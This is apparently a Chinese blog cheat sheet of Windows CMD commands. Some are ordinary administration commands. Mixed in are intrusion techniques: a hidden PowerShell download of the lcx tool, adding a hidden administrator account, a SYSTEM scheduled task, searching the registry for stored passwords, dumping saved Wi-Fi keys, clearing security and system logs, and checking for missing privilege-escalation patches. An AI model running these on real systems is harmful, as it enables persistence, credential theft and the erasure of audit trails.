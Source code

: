 ```yaml
---
title: Windows常用命令
date: 2017-03-08 20:21:00
comments: true
tags: windows
categories: 技术交流
---
```

<blockquote class="blockquote-center">除苦练内功之外，别无他法。
</blockquote>

分享一些自己常用的windows命令，本文会持续更新，全当笔记备份。本文大部分内容来自互联网整理汇总，小部分来自个人经验所总结。
<!--more -->
### CMD常用命令

下载远程文件：
```bash
powershell -w hidden -c (new-object System.Net.WebClient).Downloadfile('http://www.xxx.com/lcx.1','d:\\3.txt')
```
```bash
bitsadmin /rawreturn /transfer getfile http://127.0.0.1:8080/test.zip F:\123.zip
```
添加隐藏账号：
```bash
net user test$ test /add       添加test用户密码为test的隐藏账号
net localgroup administrators test$ /add 把test添加到系统用户组
```
列出更新的补丁：
```bash
wmic qfe list full /format:htable > hotfixes.htm
wmic qfe get description,installedOn
```
在d盘根目录递归查找login.html文件：
```bash
cd /d d: && dir login.html /a-d/b/s   
```
进入某盘符的某个目录下：
```bash
d: & cd d:/Clover
```
重新打开一个cmd运行：
```bash
cmd /c  whoami 
```
添加计划任务：
```bash
schtasks.exe  /Create /RU "SYSTEM" /SC MINUTE /MO       
45 /TN FIREWALL /TR "c:/1.ex    e" /ED 2016/12/12
可以把RU里面的system改为自己的账户名称，这样就可以执行添加计划任务了
```
进程相关：
```bash
tasklist   查看进程
taskkill /im 进程名称
taskkill /pid[进程码] -t(结束该进程) -f(强制结束该进程以及所有子进程)
```

查看windows系统未打的漏洞补丁：
```bash
set KB2829361=MS13-046&set KB2830290=MS13-046&set KB2667440=MS12-020&set KB2667402=MS12-020&set KB3124280=MS16-016&set KB3077657=MS15-077&set KB3045171=MS15-051&set KB2592799=MS11-080&set KB952004=MS09-012 PR&set KB956572=MS09-012 巴西烤肉&set KB970483=MS09-020 iis6&set KB2124261=MS10-065 ii7&set KB2271195=MS10-065 ii7&systeminfo>a.txt&(for %i in (KB952004 KB956572 KB2393802 KB2503665 KB2592799 KB2621440 KB2160329 KB970483 KB2124261 KB977165 KB958644 KB2667402 KB2667440 KB2830290 KB2829361 KB3045171 KB3077657 KB3124280) do @type a.txt|@find /i "%i"||@echo %%i% Not Installed!)&del /f /q /a a.txt
```
获取保存在注册表中密码的键值：
```bash
REG query HKCU  /v "pwd" /s  #pwd可替换为password \ HKCU 可替换为HKCR
```
识别开机启动的程序:
```bash
wmic startup list full
```
识别网卡中的IP与Mac：
```bash
wmic nicconfig get ipaddress,macaddress
```
查看共享服务：
```bash
wmic share get name,path
net share
```
查看系统中日志的位置：
```bash
wmic nteventlog get path,filename,writeable
```
删除日志：
```bash
wevtutil cl "windows powershell"
wevtutil cl "security"
wevtutil cl "system"
```
运行的服务：
```bash
sc query type= service
net start
```
安装的软件以及版本：
```bash
wmic product get name,version
```
查看某个进程的详细情况：
```bash
wmic process where name="chrome.exe" list full
```
显示系统中曾连接过的无线密码：(以管理员身份运行)
```bash
netsh wlan show profiles
netsh wlan show profiles name="profiles的名字" key=clear
```
一键获取：
```bash
for /f "skip=9 tokens=1,2 delims=:" %i in ('netsh wlan show profiles') do @echo %j | findstr -i -v echo | netsh wlan show profiles %j key=clear
```
查看是否为虚拟机：
```bash
wmic bios list full | find /i "vmware"
```
是否支持powershell:
```bash
if defined PSModulePath (echo 支持powershell) else (echo 不支持powershell)
```
电脑产品编号与型号信息：
```bash
wmic baseboard get  Product,SerialNumber
```

### CMD局域网命令

arp -a 列出本网段内所有活跃的IP地址
arp -a 加对方IP是查对方的MAC地址
arp -s （ip + mac）绑定mac与ip地址
arp -d （ip + mac）解绑mac与ip地址

net view                  ------> 查询同一域内机器列表
net view /domain    ------> 查询域列表
net view /domain:domainname  -----> 查看workgroup域中计算机列表

ipconfig /all            ------> 查询本机IP段，所在域等
ipconfig /release
ipconfig /renew    重新获取Ip地址

telnet ip 端口号：尝试能否打开链接远程主机端口 nbtstat -a 加对方IP查对方的主机名
tracert 主机名   得到IP地址

netstat -a -n
netstat -an | find "3389"
netstat -a查看开启哪些端口
netstat -n查看端口的网络连接情况
netstat -v查看正在进行的工作
netstat -p tcp/ip查看某协议使用情况
netstat -s 查看正在使用的所有协议使用情况

nbtstat -n 获取NetBIOS
nslookup 域名   查询域名对应的ip

### DO常用快捷键

mspaint　　画图工具
calc　　计算机
notepad　　记事本
taskmgr　　任务管理器
osk　　打开屏幕键盘
gpedit.msc　　组策略
services.msc　　本地服务
compmgmt.msc　　计算机管理
devmgmt.msc　　设备管理器
winver　　查看系统版本
magnify　　放大镜实用程序
eventvwr　　事件查看器
Regedit　　打开注册表
resmon　　资源监视器
WMIC BIOS get releasedate　　查看电脑生产日期
mstsc -f　　远程连接（可以全屏）


*本文将持续收集更新，欢迎大家留言补充！*